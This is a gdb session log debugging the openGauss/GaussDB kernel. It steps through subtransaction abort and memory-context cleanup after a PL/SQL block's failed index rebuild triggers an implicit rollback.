#28 0x000055e1a1fa80be in PortalRunMulti (portal=0x7ff785af0050, isTopLevel=true, dest=0x7ff84ccb0370, altdest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2326
#29 0x000055e1a1fac2dc in PortalRun (portal=0x7ff785af0050, count=9223372036854775807, isTopLevel=true, dest=0x7ff84ccb0370, altdest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:1501
#30 0x000055e1a1f92276 in exec_simple_query (query_string=<optimized out>, msg=0x7ff85a14a530, messageType=QUERY_MESSAGE) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:3513
#31 0x000055e1a1f9ee38 in gs_process_command (firstchar=<optimized out>, input_message=0x7ff85a14a530, send_ready_for_query=0x7ff85a14a526) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11743
#32 0x000055e1a1fa49c0 in PostgresMain (argc=<optimized out>, argv=0x7ff850c75b20, dbname=<optimized out>, username=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11313
#33 0x000055e1a1f282df in backend_run (port=0x7ff85a14a890) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:12482
#34 0x000055e1a1f671b0 in gauss_db_worker_thread_main<(knl_thread_role)2> (arg=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:19086
#35 0x000055e1a1f2839a in internal_thread_func (args=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:20196
#36 0x00007ff9cefa2f1b in ?? () from /usr/lib64/libpthread.so.0
#37 0x00007ff9ceeda320 in clone () from /usr/lib64/libc.so.6
(gdb) c
Continuing.
[Switching to LWP 92797]
Thread 43 "txnsnapcapturer" hit Breakpoint 1, errstart (elevel=20, filename=0x55e1a5983c66 "snapcapturer.cpp", lineno=870, funcname=0x55e1a59842f0 <txn_snap_cap_capturer_impl()::__func__> "txn_snap_cap_capturer_impl", domain=0x55e1a536a004 "plpgsql-9.2") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/error/elog.cpp:238
238 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/error/elog.cpp: No such file or directory.
(gdb) c
Continuing.
[Switching to LWP 92744]
Thread 22 "TPLworker" hit Breakpoint 1, errstart (elevel=20, filename=0x55e1a5708725 "tuplesort.cpp", lineno=4284, funcname=0x55e1a5709840 <tuplesort_comparetup_index_btree(SortTuple const*, SortTuple const*, Tuplesortstate*)::__func__> "tuplesort_comparetup_index_btree", domain=0x55e1a536a004 "plpgsql-9.2") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/error/elog.cpp:238
238 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/error/elog.cpp
(gdb) c
Continuing.
[Switching to LWP 92797]
Thread 43 "txnsnapcapturer" hit Breakpoint 5, set_userid_and_sec_context (userid=10, sec_context=0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) c
Continuing.
[LWP 109020 exited]
[Switching to LWP 92744]
Thread 22 "TPLworker" hit Breakpoint 2, 0x000055e1a2e6a520 in xact_event_action_abort_subtrans (stp_rollback=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:3574
3574 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp: No such file or directory.
(gdb) bt
#0 0x000055e1a2e6a520 in xact_event_action_abort_subtrans (stp_rollback=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:3574
#1 0x000055e1a2e6ab47 in xact_finish_subtrans (in_stp=true) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4359
#2 0x000055e1a216328e in SPI_savepoint_rollbackAndRelease (sp_name=0x0, sub_xid=0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi_savepoint_oper.cpp:71
#3 0x000055e1a16006e5 in exec_exception_cleanup (estate=0x7ff84cbf6820, context=0x7ff85a145760) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:1272
#4 0x000055e1a16015d4 in gsplsql_exec_stmt_block (estate=0x7ff84cbf6820, block=0x7ff84cbf2ad8, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:395
#5 0x000055e1a1602452 in gsplsql_exec_stmt (estate=0x7ff84cbf6820, stmt=0x7ff84cbf2ad8, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:648
#6 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff84cbf6820, stmts=0x7ff84cbf0708, dfx_state=0x7ff84cbf6d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#7 0x000055e1a1601963 in gsplsql_exec_stmt_block (estate=0x7ff84cbf6820, block=0x7ff84cbf2e10, dfx_state=0x7ff84cbf6d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:431
#8 0x000055e1a37daec5 in gsplsql_exec_function (func=0x7ff84cbe8170, fcinfo=0x7ff85a146230, dynexec_anonymous_block=false, func_runtime_state=0x0, isDstoreAutonomous=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_exec.cpp:698
#9 0x000055e1a37ecbea in plpgsql_inline_handler (fcinfo=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_handler.cpp:1124
#10 0x000055e1a142d9c1 in OidFunctionCall2Coll (function_id=<optimized out>, collation=0, arg1=140704346781776, arg2=0, is_null=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/fmgr/fmgr.cpp:2355
#11 0x000055e1a1bdfb39 in sqlcmd_execute_do_stmt (stmt=0x7ff848998dc0, atomic=<optimized out>, is_pkg_anonymous_block=249) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/functioncmds.cpp:4242
#12 0x000055e1a1fb927e in sqlcmd_standard_process_utility (parse_tree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=true, dest=0x7ff84ccb0370, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:7283
#13 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff848998dc0, queryString=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, isTopLevel=<optimized out>, dest=0x7ff84ccb0370, sentToRemote=<optimized out>, completionTag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#14 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "",
is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#15 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#16 0x000055e1a1fa683f in PortalRunUtility (portal=0x7ff785af0050, utilityStmt=0x7ff848998dc0, isTopLevel=true, dest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2140
#17 0x000055e1a1fa80be in PortalRunMulti (portal=0x7ff785af0050, isTopLevel=true, dest=0x7ff84ccb0370, altdest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2326
#18 0x000055e1a1fac2dc in PortalRun (portal=0x7ff785af0050, count=9223372036854775807, isTopLevel=true, dest=0x7ff84ccb0370, altdest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:1501
#19 0x000055e1a1f92276 in exec_simple_query (query_string=<optimized out>, msg=0x7ff85a14a530, messageType=QUERY_MESSAGE) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:3513
#20 0x000055e1a1f9ee38 in gs_process_command (firstchar=<optimized out>, input_message=0x7ff85a14a530, send_ready_for_query=0x7ff85a14a526) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11743
#21 0x000055e1a1fa49c0 in PostgresMain (argc=<optimized out>, argv=0x7ff850c75b20, dbname=<optimized out>, username=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11313
#22 0x000055e1a1f282df in backend_run (port=0x7ff85a14a890) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:12482
#23 0x000055e1a1f671b0 in gauss_db_worker_thread_main<(knl_thread_role)2> (arg=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:19086
#24 0x000055e1a1f2839a in internal_thread_func (args=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:20196
#25 0x00007ff9cefa2f1b in ?? () from /usr/lib64/libpthread.so.0
#26 0x00007ff9ceeda320 in clone () from /usr/lib64/libc.so.6
(gdb) s
[New LWP 109048]
4902 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
s = <optimized out>
not_reset_user = <optimized out>
__func__ = "xact_event_action_abort_subtrans"
(gdb) s
4904 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
s = <optimized out>
not_reset_user = <optimized out>
__func__ = "xact_event_action_abort_subtrans"
(gdb) s
bgworker_list_sync_quit () at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/index/bgworker.cpp:457
457 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/index/bgworker.cpp: No such file or directory.
(gdb) info locals
iter = <optimized out>
bgw = <optimized out>
(gdb) s
singlylist_is_empty (head=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/include/lib/ilist.h:604
604 /usr1/GaussDBKernel/server/opengauss/src/include/lib/ilist.h: No such file or directory.
(gdb) info locals
No locals.
(gdb) s
[LWP 109029 exited]
[New LWP 109057]
bgworker_list_sync_quit () at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/index/bgworker.cpp:452
452 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/index/bgworker.cpp: No such file or directory.
(gdb) info locals
iter = <optimized out>
bgw = <optimized out>
(gdb) s
457 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/index/bgworker.cpp
(gdb) info locals
iter = <optimized out>
bgw = <optimized out>
(gdb) s
xact_event_action_abort_subtrans (stp_rollback=true) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4906
4906 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp: No such file or directory.
(gdb) info locals
s = <optimized out>
not_reset_user = <optimized out>
__func__ = "xact_event_action_abort_subtrans"
(gdb) s
4908 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
s = 0x7ff9ca42a530
not_reset_user = <optimized out>
__func__ = "xact_event_action_abort_subtrans"
(gdb) s
[LWP 109048 exited]
[New LWP 109062]
4910 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
s = 0x7ff9ca42a530
not_reset_user = <optimized out>
__func__ = "xact_event_action_abort_subtrans"
(gdb) s
4915 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
s = 0x7ff9ca42a530
not_reset_user = <optimized out>
__func__ = "xact_event_action_abort_subtrans"
(gdb) s
xact_event_action_stp_abort_subtrans_runtime_cxt (s=0x7ff9ca42a530, in_pl=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4803
4803 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
__func__ = "xact_event_action_stp_abort_subtrans_runtime_cxt"
(gdb) s
4804 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
__func__ = "xact_event_action_stp_abort_subtrans_runtime_cxt"
(gdb) s
[LWP 109057 exited]
[New LWP 109071]
4808 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
__func__ = "xact_event_action_stp_abort_subtrans_runtime_cxt"
(gdb) s
[New LWP 109073]
[LWP 109062 exited]
econn_clean () at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/executor/utils/econnector/executor_econn_connector.cpp:356
356 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/executor/utils/econnector/executor_econn_connector.cpp: No such file or directory.
(gdb) info locals
No locals.
(gdb) s
355 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/executor/utils/econnector/executor_econn_connector.cpp
(gdb) info locals
No locals.
(gdb) s
356 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/executor/utils/econnector/executor_econn_connector.cpp
(gdb) info locals
No locals.
(gdb) s
358 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/executor/utils/econnector/executor_econn_connector.cpp
(gdb) s
xact_event_action_stp_abort_subtrans_runtime_cxt (s=0x7ff9ca42a530, in_pl=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4809
4809 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp: No such file or directory.
(gdb) info locals
__func__ = "xact_event_action_stp_abort_subtrans_runtime_cxt"
(gdb) s
econn_delete_ec_ctrl () at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/executor/utils/econnector/executor_econn_connector.cpp:361
361 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/executor/utils/econnector/executor_econn_connector.cpp: No such file or directory.
(gdb) info locals
No locals.
(gdb) s
362 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/executor/utils/econnector/executor_econn_connector.cpp
(gdb) s
366 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/executor/utils/econnector/executor_econn_connector.cpp
(gdb) s
xact_event_action_stp_abort_subtrans_runtime_cxt (s=0x7ff9ca42a530, in_pl=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4813
4813 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp: No such file or directory.
(gdb) info locals
__func__ = "xact_event_action_stp_abort_subtrans_runtime_cxt"
(gdb) s
4816 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) s
[New LWP 109086]
[LWP 109073 exited]
4813 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
__func__ = "xact_event_action_stp_abort_subtrans_runtime_cxt"
(gdb) s
4816 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
__func__ = "xact_event_action_stp_abort_subtrans_runtime_cxt"
(gdb) s
[New LWP 109089]
4819 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
__func__ = "xact_event_action_stp_abort_subtrans_runtime_cxt"
(gdb) s
4816 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) s
4819 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) s
4820 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) s
xact_event_action_abort_trans_memory () at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:896
896 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
No locals.
(gdb) s
[LWP 109071 exited]
897 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) bt
#0 xact_event_action_abort_trans_memory () at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:897
#1 0x000055e1a2e69845 in xact_event_action_stp_abort_subtrans_runtime_cxt (s=0x7ff9ca42a530, in_pl=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4820
#2 0x000055e1a2e6a594 in xact_event_action_abort_subtrans (stp_rollback=true) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4915
#3 0x000055e1a2e6ab47 in xact_finish_subtrans (in_stp=true) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4359
#4 0x000055e1a216328e in SPI_savepoint_rollbackAndRelease (sp_name=0x0, sub_xid=0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi_savepoint_oper.cpp:71
#5 0x000055e1a16006e5 in exec_exception_cleanup (estate=0x7ff84cbf6820, context=0x7ff85a145760) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:1272
#6 0x000055e1a16015d4 in gsplsql_exec_stmt_block (estate=0x7ff84cbf6820, block=0x7ff84cbf2ad8, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:395
#7 0x000055e1a1602452 in gsplsql_exec_stmt (estate=0x7ff84cbf6820, stmt=0x7ff84cbf2ad8, dfx_state=0x7ff84cbf7120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:648
#8 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff84cbf6820, stmts=0x7ff84cbf0708, dfx_state=0x7ff84cbf6d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#9 0x000055e1a1601963 in gsplsql_exec_stmt_block (estate=0x7ff84cbf6820, block=0x7ff84cbf2e10, dfx_state=0x7ff84cbf6d00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:431
#10 0x000055e1a37daec5 in gsplsql_exec_function (func=0x7ff84cbe8170, fcinfo=0x7ff85a146230, dynexec_anonymous_block=false, func_runtime_state=0x0, isDstoreAutonomous=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_exec.cpp:698
#11 0x000055e1a37ecbea in plpgsql_inline_handler (fcinfo=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_handler.cpp:1124
#12 0x000055e1a142d9c1 in OidFunctionCall2Coll (function_id=<optimized out>, collation=0, arg1=140704346781776, arg2=0, is_null=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/fmgr/fmgr.cpp:2355
#13 0x000055e1a1bdfb39 in sqlcmd_execute_do_stmt (stmt=0x7ff848998dc0, atomic=<optimized out>, is_pkg_anonymous_block=249) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/functioncmds.cpp:4242
#14 0x000055e1a1fb927e in sqlcmd_standard_process_utility (parse_tree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=true, dest=0x7ff84ccb0370, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:7283
#15 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff848998dc0, queryString=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, isTopLevel=<optimized out>, dest=0x7ff84ccb0370, sentToRemote=<optimized out>, completionTag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#16 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "",
is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#17 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff848998dc0, query_string=0x7ff84ccb0050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85a14a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#18 0x000055e1a1fa683f in PortalRunUtility (portal=0x7ff785af0050, utilityStmt=0x7ff848998dc0, isTopLevel=true, dest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2140
#19 0x000055e1a1fa80be in PortalRunMulti (portal=0x7ff785af0050, isTopLevel=true, dest=0x7ff84ccb0370, altdest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2326
#20 0x000055e1a1fac2dc in PortalRun (portal=0x7ff785af0050, count=9223372036854775807, isTopLevel=true, dest=0x7ff84ccb0370, altdest=0x7ff84ccb0370, completionTag=0x7ff85a14a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:1501
#21 0x000055e1a1f92276 in exec_simple_query (query_string=<optimized out>, msg=0x7ff85a14a530, messageType=QUERY_MESSAGE) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:3513
#22 0x000055e1a1f9ee38 in gs_process_command (firstchar=<optimized out>, input_message=0x7ff85a14a530, send_ready_for_query=0x7ff85a14a526) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11743
#23 0x000055e1a1fa49c0 in PostgresMain (argc=<optimized out>, argv=0x7ff850c75b20, dbname=<optimized out>, username=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11313
#24 0x000055e1a1f282df in backend_run (port=0x7ff85a14a890) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:12482
#25 0x000055e1a1f671b0 in gauss_db_worker_thread_main<(knl_thread_role)2> (arg=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:19086
#26 0x000055e1a1f2839a in internal_thread_func (args=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:20196
#27 0x00007ff9cefa2f1b in ?? () from /usr/lib64/libpthread.so.0
#28 0x00007ff9ceeda320 in clone () from /usr/lib64/libc.so.6
(gdb) s
898 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp
(gdb) info locals
No locals.
(gdb) s
[LWP 109086 exited]
[New LWP 109100]
mmgr_memory_set_controller_create (parent=0x7ff850a80000, name=0x55e1a5ab7b5b "TransactionAbortContext", minContextSize=32768, initBlockSize=32768, maxBlockSize=32768, contextType=STANDARD_CONTEXT, maxSize=0, isSession=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp:237
237 /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp: No such file or directory.
(gdb) info locals
__func__ = "mmgr_memory_set_controller_create"
(gdb) s
[LWP 109089 exited]
[New LWP 109102]
238 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
237 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
238 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
244 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
[LWP 109100 exited]
[New LWP 109104]
247 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
248 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
247 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
281 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
251 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
281 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
251 in /usr1/GaussDBKernel/server/opengauss/src/gausskernel/framework/system/memory/memctrl/framework_memory_memctrl_allocator.cpp
(gdb) s
[New LWP 109108]
